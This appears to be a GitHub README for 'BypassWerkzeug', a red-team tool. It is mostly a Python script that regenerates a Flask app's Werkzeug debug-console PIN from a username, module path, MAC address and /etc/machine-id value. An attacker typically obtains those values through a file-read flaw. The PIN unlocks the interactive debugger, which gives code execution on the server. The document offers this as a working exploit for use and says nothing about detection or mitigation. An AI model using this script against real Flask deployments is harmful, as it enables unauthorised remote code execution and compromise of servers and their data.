 #Red-Team #encoding #Exploit #Generation #Payload #python #Vulnerability #script #Bypass 

## What is BypassWerkzeug?

#### Werkzeug's pincode is generated using a combination of several factors, making it unique for each Flask app. Here's a simple breakdown script on python3 of how it works:

````         
import hashlib
from itertools import chain
probably_public_bits = [
        'aas',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
        '345049937251',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '258f132cd7e647caaf5510e3aca997c1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print(rv)
````

### Resource: `https://www.daehee.com/werkzeug-console-pin-exploit/`
